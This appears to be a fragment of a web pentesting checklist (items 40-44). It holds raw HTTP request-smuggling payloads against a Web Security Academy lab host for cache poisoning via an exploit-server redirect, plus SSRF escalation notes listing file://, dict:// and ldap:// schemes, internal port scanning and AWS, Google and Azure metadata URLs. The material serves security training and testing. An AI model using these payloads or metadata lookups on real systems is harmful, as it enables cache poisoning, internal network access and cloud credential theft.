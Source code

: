         0



        POST / HTTP/1.1
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 200
        Connection: close

        search=test

                >>>Exploiting HTTP request smuggling to perform web cache poisoning
                If any part of the front-end infrastructure performs caching of content, then it might be possible to poison 
                the cache with the off-site redirect response. This will make the attack persistent, affecting any user who 
                subsequently requests the affected URL. 

                POST / HTTP/1.1
        Host: ac501fa01f560f6ac0eaf2a400a700b1.web-security-academy.net
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 198
        Transfer-Encoding: chunked

        0

        GET /post/next?postId=3 HTTP/1.1
        Host: exploit-acee1f881f3e0f52c02cf23201410086.web-security-academy.net
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 10

        x=1



                >>








40  >>>  Insecure CORS


41  >>>  URL Redirection 


42  >>>  Parameter Tampering


43  >>>  CSRF vulnerability   & Check for IDOR vulnerability


44  >>>  SSRF vulnerability:: if found parameter like ; uri=, url= , file= , 

           ---> SSRF to RFI to Shell
                   ---> SSRF to LFI use file:///,  dict:///,  sftp:/// , ldap ;/// , ldaps:/// , ldapi:/// , tftp:///
                   ---> SSRF to internal port scan
                   ---> SSRF if any application converting file type  pdf to image or html
                   ---> SSRF to retrive cloud metadata if application using cloud 
                        --> for amazone   http://169.254.169.254/latest/metadata
                            --> for Google    http://metadata.google.internal/computeMetadata/v1
                            --> Azure         http://169.254.169.254/metadata
                          